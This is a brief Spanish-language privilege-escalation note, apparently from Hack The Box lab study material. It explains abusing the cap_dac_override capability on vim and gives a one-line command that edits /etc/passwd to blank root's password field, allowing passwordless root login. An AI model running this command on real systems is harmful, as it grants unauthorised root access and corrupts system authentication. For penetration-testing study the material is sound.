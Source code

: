## abuse cap_dac_override

Si por ejemplo vim puede usar esta capability, la cuál permite sobreescribir ficheros:
Modificaremos el /etc/passwd quitandole la "x" a la entrada : `root::0:0:root:/root:/bin/bash `de root permitiendo logear sin proporcionar contraseña:
```
userx@htb[/htb]$ echo -e ':%s/^root:[^:]*:/root::/\nwq!' | /usr/bin/vim.basic -es /etc/passwd
```
